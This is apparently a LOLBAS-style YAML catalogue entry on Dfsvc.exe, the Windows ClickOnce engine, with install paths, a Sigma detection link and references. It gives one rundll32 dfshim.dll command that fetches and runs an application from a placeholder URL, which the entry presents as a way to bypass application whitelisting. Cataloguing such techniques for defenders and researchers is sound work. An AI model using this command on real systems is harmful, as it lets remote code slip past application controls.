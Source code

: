 ```yaml
---
Name: Dfsvc.exe
Description: ClickOnce engine in Windows used by .NET
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
    Description: Executes click-once-application from Url (trampoline for Dfsvc.exe, DotNet ClickOnce host)
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

